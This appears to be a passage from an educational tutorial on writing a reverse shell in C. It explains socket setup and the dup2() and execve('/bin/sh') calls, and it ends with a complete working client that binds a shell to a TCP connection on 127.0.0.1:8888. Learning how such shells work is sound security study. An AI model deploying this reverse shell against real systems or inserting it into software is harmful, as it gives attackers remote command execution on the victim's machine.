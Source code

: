 ```
struct sockaddr_in { 
    unsigned short  sin_family;     /*  Internet protocol (AF_INET) */ 
    unsigned short  sin_port;       /* Address port (16 bits) */ 
    struct in_addr sin_addr;        /*  Internet address (32 bits) */ 
    char sin_zero[8];               /* Not used */ 
};
```
The *addressLength* is the length of the address structure, so *sizeof(struct sockaddr_in)*

## dup2()
Now we already have an established TCP connection we need to generate a new shell and send it through our socket. We can use *dup2()* in order to accomplish it. According to the [man page](https://linux.die.net/man/2/dup2):

```
dup2() makes newfd be the copy of oldfd, closing newfd first if necessary, but note the following:
    * If oldfd is not a valid file descriptor, then the call fails, and newfd is not closed. 
    * If oldfd is a valid file descriptor, and newfd has the same value as oldfd, then dup2() does nothing, and returns newfd.
```

So we will copy each of the INPUT, OUTPUT and ERROR files descriptors into our socket.

```
dup2(sock, 0);
dup2(sock, 1);
dup2(sock, 2);
```

Finally, we use [execve](https://linux.die.net/man/2/execve):

    execve() executes the program pointed to by filename

Therefore:

    execve("/bin/sh", 0, 0);

## Working TCP client
In order to create the simplest client possible, we cut all the error corrections. This is for **educational purposes only** and should NEVER be used in production.

```
int main(int argc , char *argv[]){
	int sock;
	struct sockaddr_in server;

	sock = socket(AF_INET , SOCK_STREAM , 0);

	server.sin_addr.s_addr = inet_addr("127.0.0.1");
	server.sin_family = AF_INET;
	server.sin_port = htons( 8888 );

	connect(sock , (struct sockaddr *)&server , sizeof(server));

	dup2(sock, 0);
	dup2(sock, 1);
	dup2(sock, 2);

	execve("/bin/sh", 0, 0);
	return 0;
}
```
